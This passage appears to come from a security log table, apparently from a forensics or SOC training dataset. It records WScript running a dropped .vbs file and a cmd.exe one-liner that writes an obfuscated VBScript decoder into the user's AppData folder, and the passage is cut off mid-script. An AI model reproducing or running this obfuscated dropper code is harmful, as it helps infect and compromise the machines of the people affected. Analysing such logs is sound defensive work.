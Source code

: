 | 93    | "C:\Windows\System32\WScript.exe" "C:\Users\bob.smith.WAYNECORPINC\AppData\Roaming\20429.vbs"                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              | 4490   | cmd.exe /V /C set "GSI=%APPDATA%\%RANDOM%.vbs" &amp;&amp; (for %i in ("DIm RWRL" "FuNCtioN GNbiPp(Pt5SZ1)" "EYnt=45" "GNbiPp=AsC(Pt5SZ1)" "Xn1=52" "eNd fuNCtiON" "SUb OjrYyD9()" "J0Nepq=56" "Dim UJv,G4coQ" "LT=23" "dO WHiLE UJv&lt;&gt;3016-3015" "G4coQ=G4coQ+1" "WSCRiPt.sLEeP(11)" "LoOP" "UsZK0=85" "ENd suB" "fuNctIon J7(BLI4A3)" "K5AU=29" "J7=cHR(BLI4A3)" "XBNutM9=36" "eNd fuNCtiON" "SUb MA(QrG)" "WXCzRz=9" "Dim Jw" "Qt7=34" "Jw=TIMeR+QrG" "Do WhiLE tIMEr&lt;Jw" "WSCRipT.sleEP(6)" "LOOp" "EXdkRkH=78" "enD sUB" "fUnCTion M1p67jL(BwqIM7,Qa)" "Yi=80" "dIM KH,ChnFY,RX,Pg,C6YT(8)" "Cm=7" "C6YT(1)=107" "Rzf=58" "C6YT(5)=115" "BSKoW=10" "C6YT(4)=56" "Cwd6=35" "C6YT(7)=110" "AQ=98" "C6YT(6)=100" "Y6Cm1I=82" "C6YT(2)=103" "JH3F2i=74" "C6YT(8)=119" "JRvsG2s=76" "C6YT(3)=53" "Yh=31" "C6YT(0)=115" "GuvD=47" "Tbvf1=67" "SeT KH=cReATeObject(A9y("3C3A1D301F2D063708772930033C3C201C2D0A34203B053C0C2D", "Yo"))" "V2JR=73" "Set ChnFY=KH.GETfilE(BwqIM7)" "RGeJ=68" "SeT Pg=ChnFY.opEnASTExTstReAM(6806-6805,7273-7273)" "CtxOk=82" "seT RX=KH.cREateteXtFiLe(Qa,6566-6565,2508-2508)" "XPL9af=76" "Do uNtil Pg.aTEnDOfStReam" "RX.wRitE J7(OyVNo(GNbiPp(Pg.rEAD(6633-6632)),C6YT(0)))" "LooP" "IQz=49" "RX.cloSe" "CBR1gC7=51" "Pg.cLOSE" "PmG=64" "eNd funCTIOn" "FUNcTION Ql9zEF()" "IBL2=16" "Ql9zEF=secoND(Time)" "MUTkPNJ=41" "End FUNcTiOn" "FUnCtion A9y(Am,T1GCbB)" "CWCH9r=82" "Dim V3sl0m,F4ra,AxFE" "RLLp8R=89" "For V3sl0m=1 To